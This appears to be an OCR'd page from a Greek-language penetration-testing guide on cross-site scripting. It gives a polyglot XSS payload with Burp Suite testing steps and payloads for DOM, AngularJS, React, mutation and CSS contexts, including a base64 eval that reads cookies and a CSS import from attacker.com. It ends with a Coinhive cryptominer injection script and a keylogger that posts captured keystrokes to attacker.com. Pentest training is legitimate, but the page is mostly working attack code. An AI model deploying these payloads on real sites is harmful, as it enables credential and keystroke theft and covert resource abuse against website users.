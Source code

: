 **[ΟΔΗΓΙΕΣ SCREENSHOT XSS-ADV-1]**
```
Τίτλος: Advanced XSS - Polyglot Payload
Payload: 
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

Βήματα:
1. Burp Suite Repeater
2. Test σε όλα τα input fields
3. Screenshot του successful bypass
4. Show different contexts (HTML, JS, CSS)
```

**Advanced Payloads για διάφορα contexts**:

```javascript
// DOM-based XSS
<img src=x onerror="eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ=='))">

// AngularJS sandbox escape
{{constructor.constructor('alert(1)')()}}

// React dangerouslySetInnerHTML
{"dangerouslySetInnerHTML":{"__html":"<img src=x onerror=alert(1)>"}}

// Mutation XSS
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

// CSS injection to XSS
<style>@import'//attacker.com/xss.css';</style>
```

#### 2.2.2 Advanced Attack Scenarios

**Cryptocurrency Miner Injection**:
```javascript
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('SITE_KEY');
    miner.start();
</script>
```

**Keylogger Implementation**:
```javascript
<script>
var keys = [];
document.onkeypress = function(e) {
    keys.push(e.key);
    if(keys.length > 10) {
        fetch('https://attacker.com/log', {
            method: 'POST',
            body: JSON.stringify({keys: keys, url: window.location.href})
        });
        keys = [];
    }
}
</script>
```
